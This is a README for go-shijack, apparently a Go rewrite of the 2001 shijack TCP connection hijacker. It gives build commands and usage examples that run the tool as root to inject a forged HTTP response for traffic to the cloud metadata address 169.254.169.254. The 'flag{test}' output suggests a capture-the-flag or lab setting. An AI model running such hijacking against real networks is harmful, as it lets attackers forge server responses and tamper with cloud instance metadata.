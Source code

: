 # go-shijack

tcp connection hijacker, go rewrite of shijack from 2001.

## build

```
make go-shijack
```

```
make container
```

```
CGO_ENABLED=0 go install github.com/ssst0n3/go-shijack/cmd/go-shijack@v0.1.0
```

## usage

### 1. write response file

```
root@ecs-c5a4:~# cat > flag << EOF

HTTP/1.1 200 OK
Content-Length: 11

flag{test}
EOF
```

### 2. hijack

#### 2.1 method1: binary

```
root@ecs-c5a4:~# ./go-shijack -t eth0 -i 169.254.169.254 -p 80 -f flag &
[1] 362712
root@ecs-c5a4:~# curl http://169.254.169.254
flag{test}
```

#### 2.2 method2: container

```
root@ecs-c5a4:~# docker run -d --net=host -ti --rm -v $(pwd):/data ssst0n3/go-shijack:v0.1 -t eth0 -i 169.254.169.254 -p 80 -f /data/flag -k
root@ecs-c5a4:~# curl http://169.254.169.254
flag{test}
```

## bpf

### method 1

Use predefined pattern, just provide host and port to go-shijack

### TODO: method 2 

Compile filter manually

`tcpdump ip -d -s 65536 host 169.254.169.254`

## related project

* [rshijack](https://github.com/kpcyrd/rshijack)
* [shijack](https://packetstormsecurity.com/files/24657/shijack.tgz.html)
